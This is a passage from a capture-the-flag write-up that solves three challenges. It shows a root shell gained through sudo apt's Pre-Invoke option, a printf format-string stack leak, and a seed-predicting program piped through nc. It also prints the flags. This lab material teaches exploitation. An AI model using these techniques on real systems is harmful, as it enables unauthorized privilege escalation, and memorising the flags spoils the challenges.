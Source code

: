 🏁 __gigem{ca7_1s7_t0_mak3_suRe}__{:.spoiler}

## Obituary_2

> This is a continue of Obituary_1. Root is now required to read 2nd flag

In the home directory there's `note_to_self.txt` which covers the vim vulnerability and reports that `apt` is set as NOPASSWD in sudoers.

Let's get a shell using `apt Pre-Invoke` option to execute commands.

```bash
$ sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
...
$ whoami
root
$ cat /root/flag.txt
gigem{...}
```

🏁 __gigem{y0u_w0u1d_7h1nk_p3opl3_W0u1d_Kn0W_b3773r}__{:.spoiler}

---

# Pwn

## Echo as a service

> Echo as a service (EaaS) is going to be the newest hot startup! We've tapped a big market: Developers who really like SaaS.

This was a basic `printf` format exploitation

use "%lx %lx %lx %lx ..." to extract the content of the stack where there flag was previously read with fgets().

Inverted order of bytes which are read in little endian and convert to string.

🏁 __gigem{3asy_f0rmat_vuln1}__{:.spoiler}

## Troll

> There's a troll who thinks his challenge won't be solved until the heat death of the universe.

Export the number generator from the decompiled c code from ghidra and compile it on its own.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>

void main() {
  srand((uint)time((time_t *)0x0));

  for (int i = 0; i < 100; i++) {
    printf("%d\n", (rand() % 100000 + 1));
  }
}
```

Execute the `nc` command at the same time of the extracted number generator.

```bash
./num_gen | nc <ip> <port>
```

🏁 __gigem{Y0uve_g0ne_4nD_!D3fe4t3d_th3_tr01L!}__{:.spoiler}
